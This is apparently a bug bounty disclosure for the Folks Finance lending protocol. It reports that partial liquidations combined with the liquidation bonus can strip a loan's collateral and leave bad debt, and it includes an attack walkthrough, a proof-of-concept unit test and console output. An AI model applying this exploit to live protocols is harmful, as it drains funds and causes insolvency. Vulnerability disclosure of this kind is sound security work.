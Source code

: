 
# The liquidator can make the protocol incur bad debt by partially liquidating the position.

Submitted on Wed Jul 24 2024 02:30:49 GMT-0400 (Atlantic Standard Time) by @OxAnmol for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33588

Report type: Smart Contract

Report severity: Insight

Target: https://testnet.snowtrace.io/address/0x2cAa1315bd676FbecABFC3195000c642f503f1C9

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
The liquidator can partially liquidate loans at the edge of the borrowed amount and eat up all the collateral because of the liquidation bonus. This will cause the borrowed position to lose almost all the available collateral and there will still be a significant amount of loan that cannot be covered, resulting in the bad debt for the protocol.

## Vulnerability Details
The protocol allows partial liquidation of the loans, there is also a liquidation bonus for the liquidator which is calculated based on the liquidation amount, and the liquidation bonus is paid from the remaining collateral. Liquidator can take advantage of this by liquidating 96% of loans and booking the remaining as a profit leading to bad debt for the protocol. 

## Attack Flow

- Alice borrow 1000 USDC by providing 1 ETH at 3000$
- After some time the interest is 47 USDC so total loan is now 1047 USDC
- Now the ETH price suddenly tanks to 1000 $
- Liquidator will liquidate 960 USDC amount
- Liquidation Bonus will be 38.5USDC worth ETH from borrower’s collateral
- Remaining debt will be 1047 - 960 = 87 USDC
- Remaining collateral value will be 1.5$

## Impact Details
The protocol will incur bad debt and can lead to insolvency. 

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/LoanManager.sol#L233

        
## Proof of concept
Here is a simple test to show how this attack works, paste this in `LoanManager.test.ts`. 

```js
describe("Liquidate", () => {
    it.only("Protocol incur bad debt", async () => {
      const {
        hub,
        loanManager,
        loanManagerAddress,
        oracleManager,
        pools,
        loanId: violatorLoanId,
        accountId: violatorAccountId,
        loanTypeId,
        depositFAmount,
        borrowAmount,
        usdcVariableInterestIndex: oldVariableInterestIndex,
      } = await loadFixture(depositEtherAndVariableBorrowUSDCFixture);

      // create liquidator loan
      const liquidatorLoanId = getRandomBytes(BYTES32_LENGTH);
      const liquidatorAccountId = getAccountIdBytes("LIQUIDATOR_ACCOUNT_ID");
      const liquidatorLoanName = getRandomBytes(BYTES32_LENGTH);
      await loanManager
        .connect(hub)
        .createUserLoan(liquidatorLoanId, liquidatorAccountId, loanTypeId, liquidatorLoanName);

      /* ---------------------- LIQUIDATOR DEPOSITS 1000 USDC --------------------- */

      const liquidatorDepositAmount = BigInt(1000e6); // 1,000 USDC
      const liquidatorDepositFAmount = liquidatorDepositAmount;
      const liquidatorDepositInterestIndex = BigInt(1e18);
      const usdcPrice = BigInt(1e18);
      await pools.USDC.pool.setDepositPoolParams({
        fAmount: liquidatorDepositFAmount,
        depositInterestIndex: liquidatorDepositInterestIndex,
        priceFeed: { price: usdcPrice, decimals: pools.USDC.tokenDecimals },
      });
      await loanManager
        .connect(hub)
        .deposit(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorDepositAmount);

      /* ------------------------- ETH PRICE DROP TO $1000 ------------------------ */
      const ethNodeOutputData = getNodeOutputData(BigInt(1000e18));
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // calculate interest
      const variableInterestIndex = BigInt(1.1e18);
      const stableInterestRate = BigInt(0.1e18);
      await pools.USDC.pool.setBorrowPoolParams({ variableInterestIndex, stableInterestRate });
      await pools.USDC.pool.setUpdatedVariableBorrowInterestIndex(variableInterestIndex);
      const borrowBalance = calcBorrowBalance(borrowAmount, variableInterestIndex, oldVariableInterestIndex);
      // borrow balance = 1047619048

      // Violator:
      // Collateral 1 ETH = $1,000
      // Borrow 1,000 USDC = $1,000

      // Liquidator:
      // Collateral 10,000 USDC = $10,000
      // Borrow $0
      const repayAmount = BigInt(960e6); // 900 USDC
      // convert 900 USDC into fETH/ETH amount
      const collateralFAmount = convToCollateralFAmount(
        repayAmount,
        ethNodeOutputData.price,
        pools.ETH.tokenDecimals,
        usdcPrice,
        pools.USDC.tokenDecimals,
        BigInt(1e18)
      );
      // collateral to seize + liquidation bonus
      const seizeCollateralAmount = convToSeizedCollateralAmount(
        repayAmount,
        ethNodeOutputData.price,
        pools.ETH.tokenDecimals,
        usdcPrice,
        pools.USDC.tokenDecimals,
        pools.USDC.liquidationBonus
      );

      const seizeCollateralFAmount = toFAmount(seizeCollateralAmount, BigInt(1e18));
      // Protocol fee
      const reserveCollateralFAmount = calcReserveCol(
        seizeCollateralFAmount,
        collateralFAmount,
        pools.ETH.liquidationFee
      );
      const liquidatorCollateralFAmount = seizeCollateralFAmount - reserveCollateralFAmount;

      // liquidate
      const minSeizedAmount = BigInt(0);
      const liquidate = await loanManager
        .connect(hub)
        .liquidate(
          violatorLoanId,
          liquidatorLoanId,
          liquidatorAccountId,
          pools.ETH.poolId,
          pools.USDC.poolId,
          repayAmount,
          minSeizedAmount
        );
      // check events
      const latestBlockTimestamp = await getLatestBlockTimestamp();
      // check violator loan
      const violatorLoan = await loanManager.getUserLoan(violatorLoanId);
      const violatorCollaterals: UserLoanCollateral[] = [
        {
          balance: depositFAmount - seizeCollateralFAmount,
          rewardIndex: BigInt(0),
        },
      ];
      const violatorBorrows: UserLoanBorrow[] = [
        {
          amount: borrowAmount - repayAmount,
          balance: borrowBalance - repayAmount,
          lastInterestIndex: variableInterestIndex,
          stableInterestRate: BigInt(0),
          lastStableUpdateTimestamp: BigInt(0),
          rewardIndex: BigInt(0),
        },
      ];

      console.log("voilator Remaining loan: ", ethers.formatUnits(violatorLoan[5][0][1], 6), " USDC");
      console.log("voilator Remaining collateral: ", ethers.formatUnits(violatorLoan[4][0][0], 18), "ETH");

      // check liquidator loan
      const liquidatorLoan = await loanManager.getUserLoan(liquidatorLoanId);

      console.log("liquidator loan: ", ethers.formatUnits(liquidatorLoan[5][0][1], 6), " USDC");
      console.log("liquidator collateral Gain: ", ethers.formatUnits(liquidatorLoan[4][1][0], 18), "ETH");
    }))}
```

### Console Output 

```shell 
 LoanManager (unit tests)
    Liquidate
voilator Remaining loan:  87.619048  USDC
voilator Remaining collateral:  0.0016 ETH
liquidator loan:  960.0  USDC
liquidator collateral Gain:  0.99456 ETH
      ✔ protocol incur bad debt (2007ms)

```